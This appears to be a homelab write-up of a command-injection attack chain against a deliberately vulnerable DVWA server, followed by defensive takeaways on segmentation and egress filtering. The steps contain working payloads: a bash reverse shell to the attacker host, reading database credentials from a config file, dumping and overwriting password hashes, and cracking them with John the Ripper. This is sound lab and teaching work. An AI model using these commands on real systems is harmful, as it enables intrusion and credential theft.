







# DVWA Command Injection - Attack Chain Writeup

## Introduction

This writeup walks through a full attack chain performed in a segmented homelab environment. Starting from a single unvalidated input field in DVWA's Command Injection module, the attack escalated from running commands on the webserver to compromising the backend database - stealing credentials, cracking passwords, and resetting accounts. The writeup also shows how firewall rules and network segmentation limited how far the attacker could move.

### Environment

- **Attacker:** Kali Linux (10.10.10.10) - ATTACK_NET
- **Target Webserver:** Ubuntu running DVWA (172.16.0.200) - DMZ_NET
- **Database Server:** Ubuntu running MariaDB (192.168.10.50) - CORP_NET
- **Firewall:** pfSense managing segmentation between all subnets
- **DVWA Security Level:** Low (no input filtering)

---

## Step 1 - Testing for Command Injection

The DVWA Command Injection module takes an IP address and passes it to the system `ping` command. On Low security, user input is not filtered at all, so extra commands can be appended to the input.

To test this, the following was entered into the input field:

```
127.0.0.1; whoami
```

The page returned the normal ping output, followed by `www-data` - the user account Apache runs under. This confirms the server is executing whatever commands are injected after the semicolon.



## Step 2 - Establishing a Reverse Shell

With command execution confirmed, the next step was to get an interactive shell on the webserver. A netcat listener was started on the Kali machine:

```
nc -lvnp 4444
```

Then the following payload was entered into the DVWA input field:

```
127.0.0.1 | bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'
```

This runs the normal ping, then pipes into a bash reverse shell that connects back to the attacker on port 4444. The Kali listener caught the connection, giving a remote shell on the webserver as `www-data`.



## Step 3 - Finding Database Credentials

From the reverse shell, the DVWA config file was read:

```
cat /var/www/html/DVWA/config/config.inc.php
```

This exposed the database credentials in plaintext - the server address (192.168.10.50), database name, username, and password. Web apps need these credentials to connect to their database, and they're almost always stored as plaintext in config files. Any attacker with a shell on a webserver will check for these first.



## Step 4 - Accessing the Database

Using the credentials from the config file, the database was queried directly from the reverse shell:

```
mysql -h 192.168.10.50 -u dvwa -p'ezpass' -e "SELECT user, password FROM dvwa_copy.users;"
```

This returned all user accounts and their MD5 password hashes. In a real attack, this could expose customer data, financial records, or anything else stored in the database.



## Step 5 - Resetting Credentials

With write access to the database, the admin password was overwritten directly:

```
UPDATE dvwa_copy.users SET password='hacked' WHERE user='admin';
```

A follow-up query confirmed the admin password was replaced with plaintext. An attacker could do this to lock out real administrators while keeping their own access.



## Step 6 - Cracking Passwords with John the Ripper

The remaining password hashes were copied to the Kali machine and cracked using John the Ripper with the rockyou.txt wordlist:

```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

All hashes cracked in seconds because the passwords were weak and MD5 has no salting or built-in slowdown. Results: gordonb:abc123, 1337:charley, pablo:letmein.



## Step 7 - Defense Validation

The pfSense firewall rules for DMZ_NET show that the webserver's outbound access is tightly scoped. It can only reach the database server on port 3306, Splunk on port 9997, and standard web/DNS ports for updates. A temporary rule on port 4444 was added to allow the reverse shell for this exercise (labeled "Intentional Vulnerability").

Without that intentional rule, the reverse shell would have been blocked. The segmentation also prevented the compromised webserver from reaching the Domain Controller, SOC workstations, or any other internal systems beyond its explicitly allowed destinations.



---

## Attack Chain Summary

```
Command Injection → Reverse Shell → Config File → DB Credentials → Data Theft → Password Cracking/Reset
```

## Key Takeaways

- **One vulnerable input field** led to full server compromise and database access.
- **Plaintext credentials in config files** are a built-in risk of web app architecture. A shell on the webserver means access to the database.
- **MD5 is not sufficient for password storage.** All hashes cracked in seconds. Production applications should use bcrypt, scrypt, or Argon2.
- **Network segmentation limited the damage.** The attacker could reach the database (by design), but firewall rules blocked movement to the Domain Controller, SOC network, and other internal systems.
- **Egress filtering matters.** The reverse shell only succeeded because a firewall rule was intentionally added. Default-deny outbound policies block this type of attack.
